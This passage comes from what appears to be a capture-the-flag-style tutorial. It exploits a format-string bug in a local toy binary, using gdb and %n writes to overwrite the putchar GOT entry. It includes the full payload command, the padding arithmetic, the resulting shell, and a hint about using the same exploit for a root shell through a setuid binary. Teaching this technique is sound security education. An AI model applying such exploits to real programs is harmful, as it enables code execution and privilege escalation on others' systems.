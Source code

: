 ```
  [------------------------------------------------------------------------------]
  Legend: code, data, rodata, value
  Stopped reason: SIGSEGV
  0x0000f910 in ?? ()
  gdb-peda$ x/xw 0x0804a010
  0x804a010 <putchar@got.plt>:	0x0000f910
  gdb-peda$ 
```
  As you can see we have written the lower order bytes to the address correctly

* We now need to tackle the higher order bytes, so now that means we need to
  write bfff - F910 more bytes to the higher order bytes. But this sum works out
  to a negative figure to fix this we use a trick we do 1bfff - f910 which
  equals c6ef or 50927 in decimal. We also have to adjust the address we are
  writing too by 2 bytes (as we are writing to the higher order bytes. Our input
  string now becomes

```
  gdb-peda$ run $(python -c 'print "\x10\xa0\x04\x08" + "\x12\xa0\x04\x08"').%63750u.%4\$n.%50925u.%5\$n
  
  $ ps
  [New process 8218]
  process 8218 is executing new program: /bin/ps
    PID TTY          TIME CMD
   7883 pts/0    00:00:00 bash
   8211 pts/0    00:00:00 gdb
   8213 pts/0    00:00:00 sh
   8218 pts/0    00:00:00 ps
```
  and we have a shell!! So what happened to our format string, well.....
1. We wrote 4 more bytes for the address of the higher order bytes so the %63754u
   part had to become %63750u
2. we added ,%50925u.%5\$n to the format string the 50925 part is the 50927
   bytes we calculated that we needed to write minus the 2 extra bytes we used
   for the spacers and now we have to write this value to the 5th parameter on
   the stack which is the address of the higher order bytes of the putchar
   address (0x0804a010), we don't need to inspect this address this time as we
   have a shell

Lets just attempt this exploit outside of gdb

```
  $ ./fmt $(python -c 'print "\x10\xa0\x04\x08" + "\x12\xa0\x04\x08"').%63750u.%4\$n.%50925u.%5\$n
  $ ps
    PID TTY          TIME CMD
   7883 pts/0    00:00:00 bash
   8211 pts/0    00:00:00 gdb
   8213 pts/0    00:00:00 sh
   8233 pts/0    00:00:00 sh
   8234 pts/0    00:00:00 ps
```
voila! We have a shell, now we could perhaps to further verify this if you set
the owner of the fmt bin to root (`chown root:root`) and set the suid bit
(`chmod +s fmt`) then you will be able to exploit this an get a root shell

Enjoy!!!

